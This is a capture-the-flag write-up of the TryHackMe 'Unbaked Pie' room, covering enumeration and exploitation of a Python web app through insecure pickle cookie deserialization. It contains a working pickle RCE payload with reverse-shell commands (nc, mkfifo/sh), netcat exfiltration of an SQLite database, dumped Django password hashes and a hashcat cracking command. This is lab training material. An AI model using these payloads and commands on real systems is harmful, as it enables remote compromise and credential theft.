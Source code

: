 # Unbaked Pie

![image](https://user-images.githubusercontent.com/5285547/135349199-38047830-0a14-4914-b35e-962103097322.png)

Room link: https://tryhackme.com/room/unbakedpie

## Enumeration

Nmap 

Starting my enumration with an nmap scan as usual, after a long scan only one port comes back to me, filemaker!?

```
PORT     STATE SERVICE
5003/tcp open  filemaker
```

## Port 5003

![image](https://user-images.githubusercontent.com/5285547/135356072-c5ced1a8-8140-42df-8d63-4ba43fe176ff.png)

Seems to be a website all about pickles and pickle products. 
Typing in the wrong path gave lots of info back from the host. 

![image](https://user-images.githubusercontent.com/5285547/135356353-88a8b03a-fc30-4a43-9643-41d5aa543eac.png)

![image](https://user-images.githubusercontent.com/5285547/135356371-a2862edc-20e7-4789-aed5-5fcc8afecab0.png)

## Pickle (python) (Decode)

Looking about the web app I notice in burp suite the request headers also point to python

![image](https://user-images.githubusercontent.com/5285547/135357480-734281a9-a09f-4af8-b86c-b90da5b7beb5.png)

When using the search feature on the site we can see a cookie being set (maybe also being deseralised) 

![image](https://user-images.githubusercontent.com/5285547/135357550-509b26c2-4449-459f-b1f8-fbcdb70a6985.png)

Set-Cookie

```
gASVCgAAAAAAAACMBmFzZGFzZJQu
```

Decoding the cookie value using python pickle

![image](https://user-images.githubusercontent.com/5285547/135357609-2b7aee9e-905f-486a-9064-e6b40d8b3c4f.png)

```
import pickle
import base64


string_val = b"gASVCgAAAAAAAACMBmFzZGFzZJQu"
string_val = base64.b64decode(string_val)
d = pickle.loads(string_val)
print(d)
```

## RCE (Encode)

Using this [here](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) article which helps to get a better understanding of the python pickle rce. We can craft a payload to work here. 

Original RCE code

```
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

## Root (container)

Editing the code we can get RCE via the serilization. 

```
import pickle
import base64


#string_val = b"gASVCgAAAAAAAACMBmFzZGFzZJQu"
#string_val = base64.b64decode(string_val)
#d = pickle.loads(string_val)
#print(d)

import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('nc -e /bin/sh IP PORT')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

```
python3 pickl3.py
b'gASVOgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjB9uYyAtZSAvYmluL3NoIDEwLjguMTUzLjEyMCA5OTk5lIWUUpQu'
```

Swapping the cookie and calling /search (GET) we can get the code exection. 

![image](https://user-images.githubusercontent.com/5285547/135358609-2ad8541c-2223-466d-96b0-64f1262c1875.png)

After getting on we can update our shell. 

```
python3 -c "import pty;pty.spawn('/bin/bash')"
stty raw -echo;fg
reset
xterm
```

Now we can enumerate again to find more information. 

## Enumeration 2

In the /root folder in .bash_history we find some juicy data

```
nc
exit
ifconfig
ip addr
ssh 172.17.0.1
ssh 172.17.0.2
exit
ssh ramsey@172.17.0.1
exit
cd /tmp
wget https://raw.githubusercontent.com/moby/moby/master/contrib/check-config.sh
chmod +x check-config.sh
./check-config.sh 
nano /etc/default/grub
vi /etc/default/grub
apt install vi
apt update
apt install vi
apt install vim
apt install nano
nano /etc/default/grub
grub-update
apt install grub-update
apt-get install --reinstall grub
grub-update
exit
ssh ramsey@172.17.0.1
exit
ssh ramsey@172.17.0.1
exit
ls
cd site/
ls
cd bakery/
ls
nano settings.py 
exit
ls
cd site/
ls
cd bakery/
nano settings.py 
exit
apt remove --purge ssh
ssh
apt remove --purge autoremove open-ssh*
apt remove --purge autoremove openssh=*
apt remove --purge autoremove openssh-*
ssh
apt autoremove openssh-client
clear
ssh
ssh
ssh
exit
```


In /home/site we find an intresting file called db.sqlite3. Lets get it on our box and see what secrets it holds! 

```
# our box
nc -lnvp 8082 > db.sqlite3 

# attack box
nc 10.8.153.120 8082 < db.sqlite3
```

Now lets go through the file. 

```
sqlite3 db.sqlite3

SQLite version 3.36.0 2021-06-18 18:36:39
Enter ".help" for usage hints.
sqlite> .tables
auth_group                  django_admin_log          
auth_group_permissions      django_content_type       
auth_permission             django_migrations         
auth_user                   django_session            
auth_user_groups            homepage_article          
auth_user_user_permissions

sqlite> select * from auth_user;

1|pbkdf2_sha256$216000$3fIfQIweKGJy$xFHY3JKtPDdn/AktNbAwFKMQnBlrXnJyU04GElJKxEo=|2020-10-03 10:43:47.229292|1|aniqfakhrul|||1|1|2020-10-02 04:50:52.424582|
11|pbkdf2_sha256$216000$0qA6zNH62sfo$8ozYcSpOaUpbjPJz82yZRD26ZHgaZT8nKWX+CU0OfRg=|2020-10-02 10:16:45.805533|0|testing|||0|1|2020-10-02 10:16:45.686339|
12|pbkdf2_sha256$216000$hyUSJhGMRWCz$vZzXiysi8upGO/DlQy+w6mRHf4scq8FMnc1pWufS+Ik=|2020-10-03 10:44:10.758867|0|ramsey|||0|1|2020-10-02 14:42:44.388799|
13|pbkdf2_sha256$216000$Em73rE2NCRmU$QtK5Tp9+KKoP00/QV4qhF3TWIi8Ca2q5gFCUdjqw8iE=|2020-10-02 14:42:59.192571|0|oliver|||0|1|2020-10-02 14:42:59.113998|
14|pbkdf2_sha256$216000$oFgeDrdOtvBf$ssR/aID947L0jGSXRrPXTGcYX7UkEBqWBzC+Q2Uq+GY=|2020-10-02 14:43:15.187554|0|wan|||0|1|2020-10-02 14:43:15.102863|
```

Now we can crack the hash's for these accounts. 

```
pbkdf2_sha256$216000$3fIfQIweKGJy$xFHY3JKtPDdn/AktNbAwFKMQnBlrXnJyU04GElJKxEo=:aniqfakhrul
pbkdf2_sha256$216000$0qA6zNH62sfo$8ozYcSpOaUpbjPJz82yZRD26ZHgaZT8nKWX+CU0OfRg=:testing
pbkdf2_sha256$216000$hyUSJhGMRWCz$vZzXiysi8upGO/DlQy+w6mRHf4scq8FMnc1pWufS+Ik=:ramsey
pbkdf2_sha256$216000$Em73rE2NCRmU$QtK5Tp9+KKoP00/QV4qhF3TWIi8Ca2q5gFCUdjqw8iE=:oliver
pbkdf2_sha256$216000$oFgeDrdOtvBf$ssR/aID947L0jGSXRrPXTGcYX7UkEBqWBzC+Q2Uq+GY=:wan
```

Cracking with hashcat
```
hashcat -a 0 -m 10000 hash /usr/share/wordlists/rockyou.txt -O  
```
